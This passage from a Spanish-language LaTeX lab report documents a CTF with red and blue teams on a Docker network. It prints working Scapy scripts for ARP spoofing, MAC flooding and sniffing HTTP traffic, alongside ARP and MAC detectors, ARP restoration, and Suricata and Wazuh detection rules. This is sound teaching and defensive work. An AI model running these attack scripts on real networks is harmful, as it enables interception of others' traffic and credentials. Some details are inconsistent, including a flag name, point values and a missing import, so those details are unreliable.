    \begin{tabularx}{\textwidth}{|l|l|X|}
        \hline
        \textbf{Servicio} & \textbf{Flag} & \textbf{Ubicaci\'on} \\
        \hline\hline
        Victim1 & \texttt{FLAG\{arp\_spoof\_mitm\_captured\}} & Comentario HTML en la p\'agina web \\
        \hline
        Victim2 & \texttt{FLAG\{mac\_flood\_broadcast\_leak\}} & Archivo \texttt{/backup/db\_credentials.txt} \\
        \hline
        Victim3 & \texttt{FLAG\{plaintext\_credentials\_exposed\}} & Campo \texttt{auth\_token} en POST HTTP \\
        \hline
    \end{tabularx}
\end{table}

\subsubsection{Plataforma CTFd}

Se despleg\'o CTFd (versi\'on oficial) con MariaDB y Redis como backend, configurada mediante API REST:

\begin{table}[H]
    \centering
    \caption{Desaf\'ios configurados en la plataforma CTFd.}
    \label{tab:challenges}
    \begin{tabularx}{\textwidth}{|l|c|l|X|}
        \hline
        \textbf{Desaf\'io} & \textbf{Puntos} & \textbf{Tipo} & \textbf{Descripci\'on} \\
        \hline\hline
        Hidden in Plain Sight & 100 & Ofensivo & Encontrar flag en c\'odigo fuente HTML \\
        \hline
        Leaked Credentials & 150 & Ofensivo & Acceder a archivos de backup expuestos \\
        \hline
        Intercept the Report & 200 & Ofensivo & Interceptar comunicaci\'on HTTP v\'ia MITM \\
        \hline
        Flood the Switch & 200 & Ofensivo & Ejecutar MAC Flooding exitosamente \\
        \hline
        Detect ARP Spoofing & 150 & Defensivo & Detectar y reportar ataque ARP Spoofing \\
        \hline
        Detect MAC Flooding & 150 & Defensivo & Detectar anomal\'ias de MAC en la red \\
        \hline
    \end{tabularx}
\end{table}

\subsection{Fase 3: Herramientas de Ataque (Red Team)}

\subsubsection{ARP Spoofing (arp\_spoof.py)}

La herramienta de ARP Spoofing implementa el envenenamiento de tablas ARP en modo \textit{broadcast}. Se opt\'o por enviar los ARP Reply falsos a la direcci\'on de difusi\'on (\texttt{ff:ff:ff:ff:ff:ff}) en lugar de unicast, por dos razones: (1) asegurar que todos los hosts de la red actualicen sus tablas ARP, y (2) permitir que el Blue Team pueda detectar los paquetes falsificados.

\begin{lstlisting}[style=pythonstyle, caption={Fragmento principal de arp\_spoof.py}]
from scapy.all import Ether, ARP, sendp
import time

def arp_spoof(target_ip, spoofed_ip, iface="eth0"):
    """
    Envia ARP Replies falsificados en modo broadcast.
    target_ip: IP de la victima
    spoofed_ip: IP que se quiere suplantar (gateway)
    """
    packet = (
        Ether(dst="ff:ff:ff:ff:ff:ff") /
        ARP(
            op="is-at",         # ARP Reply
            psrc=spoofed_ip,    # "Yo soy el gateway"
            pdst=target_ip      # Dirigido a la victima
        )
    )
    while True:
        sendp(packet, iface=iface, verbose=False)
        time.sleep(2)  # Enviar cada 2 segundos
\end{lstlisting}

\begin{infobox}
El modo broadcast (\texttt{dst="ff:ff:ff:ff:ff:ff"}) es esencial en redes switched. En un switch (f\'isico o virtual como el bridge de Docker), los paquetes unicast solo llegan al puerto de destino. Al usar broadcast, el paquete ARP falso alcanza todos los puertos, incluyendo el del Blue Team.
\end{infobox}

\subsubsection{MAC Flooding (mac\_flood.py)}

El ataque de MAC Flooding genera tramas Ethernet con direcciones MAC aleatorias para saturar la tabla CAM:

\begin{lstlisting}[style=pythonstyle, caption={Fragmento principal de mac\_flood.py}]
from scapy.all import Ether, ARP, RandMAC, RandIP, sendp

def mac_flood(iface="eth0", count=1000, rate=100):
    """
    Inunda la red con tramas de MACs aleatorias.
    """
    for i in range(count):
        random_mac = str(RandMAC())
        packet = (
            Ether(src=random_mac) /
            ARP(
                op="who-has",
                hwsrc=random_mac,
                psrc=str(RandIP())
            )
        )
        sendp(packet, iface=iface, verbose=False)
\end{lstlisting}

\subsubsection{Captura y Env\'io de Flags}

\begin{lstlisting}[style=pythonstyle, caption={L\'ogica de captura de flags (capture\_flags.py)}]
from scapy.all import sniff, Raw
import re

FLAG_PATTERN = re.compile(r'FLAG\{[^}]+\}')

def packet_handler(packet):
    if packet.haslayer(Raw):
        payload = packet[Raw].load.decode('utf-8', errors='ignore')
        flags = FLAG_PATTERN.findall(payload)
        for flag in flags:
            print(f"[!] FLAG ENCONTRADA: {flag}")

# Capturar trafico HTTP (puerto 80)
sniff(filter="tcp port 80", prn=packet_handler, iface="eth0")
\end{lstlisting}

\subsection{Fase 4: Herramientas de Defensa (Blue Team)}

\subsubsection{Monitor ARP (arp\_monitor.py)}

El monitor ARP implementa un enfoque h\'ibrido de detecci\'on con dos modos operando simult\'aneamente:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Modo activo (ARP Polling)}: Env\'ia solicitudes ARP (\textit{who-has}) a los hosts conocidos cada 5 segundos y compara las respuestas con una l\'inea base de asociaciones IP-MAC leg\'itimas.
    \item \textbf{Modo pasivo (Sniffing)}: Captura tr\'afico ARP en la red y analiza cada paquete ARP Reply para detectar cambios en las asociaciones IP-MAC.
\end{itemize}

\begin{lstlisting}[style=pythonstyle, caption={Estructura del monitor ARP h\'ibrido (arp\_monitor.py)}]
import threading
from scapy.all import ARP, Ether, srp, sniff

# Linea base: asociaciones IP-MAC legitimas
BASELINE = {
    "172.20.0.2":  "02:42:ac:14:00:02",  # Gateway
    "172.20.0.10": "02:42:ac:14:00:0a",  # Victim1
    "172.20.0.11": "02:42:ac:14:00:0b",  # Victim2
    "172.20.0.12": "02:42:ac:14:00:0c",  # Victim3
}

alert_count = 0

def active_polling():
    """Envia ARP requests periodicos y verifica respuestas."""
    global alert_count
    while True:
        for ip, expected_mac in BASELINE.items():
            ans, _ = srp(
                Ether(dst="ff:ff:ff:ff:ff:ff") /
                ARP(pdst=ip),
                timeout=2, verbose=False
            )
            for _, rcv in ans:
                if rcv.hwsrc != expected_mac:
                    alert_count += 1
                    print(f"[ALERTA #{alert_count}] ARP Spoofing: "
                          f"{ip} -> {rcv.hwsrc} "
                          f"(esperado: {expected_mac})")
        time.sleep(5)

def passive_monitor(packet):
    """Analiza paquetes ARP capturados pasivamente."""
    global alert_count
    if packet.haslayer(ARP) and packet[ARP].op == 2:
        src_ip = packet[ARP].psrc
        src_mac = packet[ARP].hwsrc
        if src_ip in BASELINE:
            if src_mac != BASELINE[src_ip]:
                alert_count += 1
                print(f"[ALERTA #{alert_count}] ARP Reply "
                      f"sospechoso: {src_ip} = {src_mac}")

# Ejecutar ambos modos en paralelo
polling_thread = threading.Thread(target=active_polling)
polling_thread.daemon = True
polling_thread.start()

sniff(filter="arp", prn=passive_monitor, iface="eth0")
\end{lstlisting}

\subsubsection{Detector de Anomal\'ias MAC (mac\_anomaly\_detector.py)}

Esta herramienta implementa un algoritmo de detecci\'on basado en aprendizaje de l\'inea base:

\begin{enumerate}[leftmargin=2cm]
    \item \textbf{Per\'iodo de aprendizaje (15 segundos)}: Durante este per\'iodo, el detector registra todas las direcciones MAC observadas en la red como leg\'itimas.
    \item \textbf{Modo de monitoreo}: Despu\'es del aprendizaje, cualquier nueva direcci\'on MAC no registrada en la l\'inea base se clasifica como sospechosa y genera una alerta.
\end{enumerate}

\begin{lstlisting}[style=pythonstyle, caption={Detector de anomal\'ias MAC (mac\_anomaly\_detector.py)}]
import time
from scapy.all import sniff, Ether

known_macs = set()
learning = True
suspicious_count = 0

def learn_and_detect(packet):
    global learning, suspicious_count
    if packet.haslayer(Ether):
        mac = packet[Ether].src
        if learning:
            known_macs.add(mac)
        elif mac not in known_macs:
            suspicious_count += 1
            total = len(known_macs) + suspicious_count
            pct = (suspicious_count / total) * 100
            print(f"[ANOMALIA] Nueva MAC: {mac} "
                  f"({suspicious_count} nuevas, "
                  f"{pct:.0f}% sospechosas)")

# Periodo de aprendizaje
print("[*] Aprendiendo MACs legitimas (15s)...")
sniffer = sniff(prn=learn_and_detect, timeout=15, iface="eth0")
print(f"[*] Baseline: {len(known_macs)} MACs conocidas")

# Modo de monitoreo
learning = False
print("[*] Monitoreando anomalias...")
sniff(prn=learn_and_detect, iface="eth0")
\end{lstlisting}

\subsubsection{Restauraci\'on ARP (arp\_restore.py)}

La herramienta de restauraci\'on env\'ia paquetes ARP leg\'itimos para corregir las tablas ARP envenenadas:

\begin{lstlisting}[style=pythonstyle, caption={Restauraci\'on de tablas ARP (arp\_restore.py)}]
from scapy.all import Ether, ARP, sendp

def restore_arp(target_ip, target_mac, real_ip, real_mac):
    """
    Envia ARP Reply correcto + Gratuitous ARP para
    restaurar la tabla ARP de la victima.
    """
    # ARP Reply correcto dirigido a la victima
    restore_pkt = (
        Ether(dst=target_mac) /
        ARP(op="is-at",
            psrc=real_ip,
            hwsrc=real_mac,
            pdst=target_ip,
            hwdst=target_mac)
    )
    sendp(restore_pkt, iface="eth0", count=5, verbose=False)

    # Gratuitous ARP (broadcast)
    gratuitous = (
        Ether(dst="ff:ff:ff:ff:ff:ff") /
        ARP(op="is-at",
            psrc=real_ip,
            hwsrc=real_mac,
            pdst=real_ip,
            hwdst=real_mac)
    )
    sendp(gratuitous, iface="eth0", count=5, verbose=False)
\end{lstlisting}

\subsection{Fase 5: Sistema de Detecci\'on de Intrusiones (Suricata)}

\subsubsection{Despliegue}

Suricata se despleg\'o compartiendo el \textit{namespace} de red del contenedor gateway mediante \texttt{network\_mode: service:gateway}. Esta configuraci\'on es funcionalmente equivalente a conectar Suricata a un puerto SPAN en un switch f\'isico, permiti\'endole capturar todo el tr\'afico que transita por la interfaz del gateway.

\begin{lstlisting}[style=yamlstyle, caption={Configuraci\'on de Suricata en docker-compose.yml}]
suricata:
  build: ./containers/suricata
  container_name: suricata
  network_mode: "service:gateway"
  cap_add:
    - NET_ADMIN
    - NET_RAW
    - SYS_NICE
  volumes:
    - suricata-logs:/var/log/suricata
\end{lstlisting}

\subsubsection{Reglas Personalizadas}

Se desarrollaron 7 reglas personalizadas para detectar ataques de Capa 2 y tr\'afico HTTP sospechoso. Un hallazgo importante durante la implementaci\'on fue que Suricata no soporta el protocolo ``arp'' directamente en sus reglas; se utiliz\'o \texttt{pkthdr} con coincidencia de contenido crudo (\textit{raw content matching}) para inspeccionar el campo de operaci\'on ARP.

\begin{lstlisting}[style=rulestyle, caption={Ejemplos de reglas personalizadas de Suricata}]
# Deteccion de ARP Reply (posible ARP Spoofing)
alert pkthdr any any -> any any (
    msg:"CTF - ARP Reply detectado (posible spoofing)";
    content:"|08 06|";   # EtherType ARP
    content:"|00 02|";   # ARP op = Reply (is-at)
    sid:1000001; rev:1;
)

# Deteccion de flags en trafico HTTP
alert http any any -> any any (
    msg:"CTF - Flag encontrada en trafico HTTP";
    content:"FLAG{";
    nocase;
    sid:1000003; rev:1;
)

# Deteccion de credenciales en texto plano
alert http any any -> any any (
    msg:"CTF - Credenciales en texto plano detectadas";
    content:"password";
    nocase;
    sid:1000004; rev:1;
)
\end{lstlisting}

\begin{infobox}
La imposibilidad de usar el protocolo ``arp'' en las reglas de Suricata fue un desaf\'io t\'ecnico significativo. La soluci\'on con \texttt{pkthdr} permite inspeccionar los bytes crudos de la trama, incluyendo el EtherType (\texttt{0x0806} para ARP) y el campo de operaci\'on (\texttt{0x0002} para ARP Reply).
\end{infobox}

\subsection{Fase 6: SIEM (Wazuh)}

\subsubsection{Despliegue del Stack Wazuh}

La integraci\'on de Wazuh requiri\'o la versi\'on oficial 4.9.2 y configuraciones espec\'ificas de certificados SSL para la comunicaci\'on entre componentes:

\begin{lstlisting}[style=yamlstyle, caption={Configuraci\'on del stack Wazuh (fragmento)}]
wazuh-indexer:
  image: wazuh/wazuh-indexer:4.9.2
  container_name: wazuh-indexer
  environment:
    - "OPENSEARCH_JAVA_OPTS=-Xms512m -Xmx512m"
  networks:
    ctf-network:
      ipv4_address: 172.20.0.241

wazuh-manager:
  image: wazuh/wazuh-manager:4.9.2
  container_name: wazuh-manager
  volumes:
    - suricata-logs:/var/log/suricata:ro
  networks:
    ctf-network:
      ipv4_address: 172.20.0.240

wazuh-dashboard:
  image: wazuh/wazuh-dashboard:4.9.2
  container_name: wazuh-dashboard
  ports:
    - "5601:5601"
  networks:
    ctf-network:
      ipv4_address: 172.20.0.242
\end{lstlisting}

\subsubsection{Reglas Personalizadas de Wazuh}

Se crearon reglas personalizadas (IDs 100010--100021) para detectar ataques de Capa 2 a partir de los eventos EVE JSON generados por Suricata:

\begin{lstlisting}[style=rulestyle, caption={Ejemplo de regla personalizada de Wazuh}]
<group name="local,suricata,layer2,">

  <rule id="100010" level="10">
    <if_sid>86601</if_sid>
    <field name="alert.signature">
      CTF - ARP Reply detectado
    </field>
    <description>
      L2 Attack: ARP Spoofing detectado por Suricata
    </description>
    <group>attack,layer2,arp_spoofing,</group>
  </rule>

  <rule id="100015" level="12">
    <if_sid>86601</if_sid>
    <field name="alert.signature">
      CTF - Flag encontrada
    </field>
    <description>
      CTF: Flag detectada en trafico de red en texto plano
    </description>
    <group>ctf,data_exposure,</group>
  </rule>

</group>
\end{lstlisting}

\subsubsection{Integraci\'on Suricata--Wazuh}

La integraci\'on se logr\'o mediante un volumen Docker compartido (\texttt{suricata-logs}). Suricata escribe sus eventos en formato EVE JSON en \texttt{/var/log/suricata/eve.json}, y el Wazuh Manager lee este archivo en modo solo lectura. El decodificador JSON de Wazuh parsea autom\'aticamente los campos del evento, permiti\'endole a las reglas personalizadas filtrar por \texttt{alert.signature} y otros campos relevantes.

\newpage

% ============================================================================
\section{Ejecuci\'on y Resultados}
% ============================================================================

\subsection{Protocolo de Ejecuci\'on}

La ejecuci\'on del laboratorio se realiz\'o siguiendo un protocolo ordenado para garantizar la reproducibilidad:

\begin{enumerate}[leftmargin=2cm]
    \item Despliegue de la infraestructura: \texttt{docker-compose up -d}
    \item Verificaci\'on de conectividad entre todos los contenedores.
    \item Inicio de los monitores del Blue Team (arp\_monitor, mac\_anomaly\_detector).
    \item Ejecuci\'on de ataques del Red Team (ARP Spoofing, MAC Flooding).
    \item Captura de flags y env\'io a CTFd.
    \item Restauraci\'on de tablas ARP por el Blue Team.
    \item Recolecci\'on de evidencia y logs.
\end{enumerate}

\subsection{Resultados del Ataque ARP Spoofing}

\subsubsection{Envenenamiento de Tablas ARP}

El ataque de ARP Spoofing logr\'o envenenar exitosamente las tablas ARP de las v\'ictimas. La verificaci\'on se realiz\'o comparando las tablas ARP antes y despu\'es del ataque:

\begin{table}[H]
    \centering
    \caption{Verificaci\'on del envenenamiento ARP en Victim3.}
    \label{tab:arp-poison}
    \begin{tabular}{|l|l|l|}
        \hline
        \textbf{Estado} & \textbf{IP del Gateway} & \textbf{MAC Asociada} \\
        \hline\hline
        Antes del ataque & 172.20.0.2 & \texttt{02:42:ac:14:00:02} (real) \\
        \hline
        Durante el ataque & 172.20.0.2 & \texttt{02:42:ac:14:00:64} (atacante) \\
        \hline
        Despu\'es de restauraci\'on & 172.20.0.2 & \texttt{02:42:ac:14:00:02} (real) \\
        \hline
    \end{tabular}
\end{table}

\begin{resultbox}
El envenenamiento fue exitoso: la tabla ARP de Victim3 muestra que la direcci\'on MAC asociada al gateway (172.20.0.2) cambi\'o de la MAC real del gateway a la MAC del atacante (\texttt{.100}), confirmando la posici\'on MITM del Red Team.
\end{resultbox}

\subsubsection{Captura de Flags}

Con el MITM establecido, el Red Team captur\'o las 3 flags de los servicios vulnerables:

\begin{table}[H]
    \centering
    \caption{Flags capturadas durante el ataque MITM.}
    \label{tab:captured-flags}
    \begin{tabularx}{\textwidth}{|l|l|l|X|}
        \hline
        \textbf{\#} & \textbf{Flag} & \textbf{Puntos} & \textbf{M\'etodo de Captura} \\
        \hline\hline
        1 & \texttt{FLAG\{arp\_spoof\_mitm\_captured\}} & 100 & Inspecci\'on de c\'odigo fuente HTTP \\
        \hline
        2 & \texttt{FLAG\{mac\_flood\_broadcast\_leak\}} & 150 & Acceso a archivo de backup v\'ia HTTP \\
        \hline
        3 & \texttt{FLAG\{plaintext\_credentials\_exposed\}} & 200 & Interceptaci\'on de POST HTTP (MITM) \\
        \hline
    \end{tabularx}
\end{table}

La flag m\'as significativa fue la tercera (\texttt{FLAG\{intercepted\_token\}}), ya que requiri\'o un MITM activo: el tr\'afico POST de Victim3 al gateway fue redirigido a trav\'es del atacante, permitiendo la extracci\'on del \texttt{auth\_token} del cuerpo de la solicitud HTTP.

\subsection{Resultados del Ataque MAC Flooding}

El ataque de MAC Flooding gener\'o un volumen masivo de tramas con MACs aleatorias:

\begin{table}[H]
    \centering
    \caption{Estad\'isticas del ataque MAC Flooding.}
    \label{tab:mac-flood-stats}
    \begin{tabular}{|l|r|}
        \hline
        \textbf{M\'etrica} & \textbf{Valor} \\
        \hline\hline
        MACs aleatorias generadas & 1000+ \\
        \hline
        Nuevas MACs detectadas (en 10s) & 30+ \\
        \hline
        Porcentaje de tr\'afico sospechoso & 43\% \\
        \hline
        Alertas generadas & Inmediatas \\
        \hline
    \end{tabular}
\end{table}

\subsection{Resultados de la Defensa (Blue Team)}

\subsubsection{Monitor ARP}

El monitor ARP h\'ibrido detect\'o el ataque de ARP Spoofing de forma inmediata y continua:

\begin{table}[H]
    \centering
    \caption{Resultados del monitor ARP.}
    \label{tab:arp-monitor-results}
    \begin{tabular}{|l|r|}
        \hline
        \textbf{M\'etrica} & \textbf{Valor} \\
        \hline\hline
        Total de alertas generadas & 158+ \\
        \hline
        Alertas modo activo (polling) & Continuas (cada 5s) \\
        \hline
        Alertas modo pasivo (sniffing) & Por cada ARP Reply falso \\
        \hline
        Falsos positivos & 0 \\
        \hline
        Tiempo de detecci\'on & $<$ 5 segundos \\
        \hline
    \end{tabular}
\end{table}

Un ejemplo t\'ipico de las alertas generadas:

\begin{lstlisting}[style=bashstyle, caption={Salida del monitor ARP durante el ataque}]
[ALERTA #1] ARP Spoofing detectado: 172.20.0.2 ->
  02:42:ac:14:00:64 (esperado: 02:42:ac:14:00:02)
[ALERTA #2] ARP Reply sospechoso: 172.20.0.2 = 02:42:ac:14:00:64
...
[ALERTA #158] ARP Spoofing detectado: 172.20.0.2 ->
  02:42:ac:14:00:64 (esperado: 02:42:ac:14:00:02)
\end{lstlisting}

\subsubsection{Detector de Anomal\'ias MAC}

El detector identific\'o correctamente la diferencia entre tr\'afico normal y el ataque de MAC Flooding:

\begin{lstlisting}[style=bashstyle, caption={Salida del detector de anomal\'ias MAC}]
[*] Aprendiendo MACs legitimas (15s)...
[*] Baseline: 8 MACs conocidas
[*] Monitoreando anomalias...
[ANOMALIA] Nueva MAC: 4a:3b:2c:1d:0e:ff (1 nuevas, 11% sosp.)
[ANOMALIA] Nueva MAC: 7f:6e:5d:4c:3b:2a (2 nuevas, 20% sosp.)
...
[ANOMALIA] Nueva MAC: a1:b2:c3:d4:e5:f6 (30 nuevas, 43% sosp.)
\end{lstlisting}

\subsubsection{Restauraci\'on ARP}

Tras la ejecuci\'on de \texttt{arp\_restore.py}, las tablas ARP de todas las v\'ictimas fueron restauradas a sus valores leg\'itimos. La verificaci\'on confirm\'o que la MAC del gateway volvi\'o a su valor real en todos los hosts.

\subsection{Resultados de Suricata (NIDS)}

Suricata gener\'o un total de \textbf{90 alertas} durante la ejecuci\'on del laboratorio:

\begin{table}[H]
    \centering
    \caption{Desglose de alertas de Suricata por tipo.}
    \label{tab:suricata-alerts}
    \begin{tabularx}{\textwidth}{|l|c|X|}
        \hline
        \textbf{Tipo de Alerta} & \textbf{Cantidad} & \textbf{Descripci\'on} \\
        \hline\hline
        ARP Reply sospechoso & M\'ultiples & Detecci\'on de ARP Replies an\'omalos via \texttt{pkthdr} \\
        \hline
        Flag en tr\'afico HTTP & M\'ultiples & Patrones \texttt{FLAG\{...\}} en tr\'afico HTTP plano \\
        \hline
        Credenciales en texto plano & M\'ultiples & Campos ``password'' en tr\'afico HTTP \\
        \hline
        \textbf{Total} & \textbf{90} & Alertas combinadas de todas las reglas \\
        \hline
    \end{tabularx}
\end{table}

Las alertas de Suricata confirman dos hallazgos cr\'iticos de seguridad:
\begin{enumerate}[leftmargin=2cm]
    \item Los ataques de Capa 2 son detectables con reglas personalizadas, incluso cuando el IDS no tiene soporte nativo para el protocolo ARP.
    \item El tr\'afico HTTP sin cifrar expone informaci\'on sensible (flags, credenciales) que es f\'acilmente detectada por un NIDS.
\end{enumerate}

\subsection{Evidencia Visual}

Las siguientes capturas de pantalla documentan los resultados obtenidos durante la ejecuci\'on del laboratorio.

\subsubsection{Wazuh SIEM Dashboard}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{woverview.png}
    \caption{Panel principal de Wazuh mostrando el resumen de alertas: 92 de severidad media y 388 de severidad baja generadas durante la ejecuci\'on del CTF.}
    \label{fig:wazuh-overview}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{wthreathunting.png}
    \caption{M\'odulo Threat Hunting de Wazuh con 68 alertas de Suricata filtradas. El histograma muestra el pico de actividad durante la ejecuci\'on de los ataques.}
    \label{fig:wazuh-threathunting}
\end{figure}

\subsubsection{An\'alisis de Tr\'afico en Wireshark}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{arpspoofing.png}
    \caption{Captura de Wireshark filtrada por ARP Replies del atacante (\texttt{02:42:ac:14:00:64}). Se observan m\'ultiples ARP Replies broadcast suplantando la IP del gateway (172.20.0.2), confirmando el ataque de ARP Spoofing.}
    \label{fig:wireshark-arp}
\end{figure}

\begin{figure}[H]
    \centering
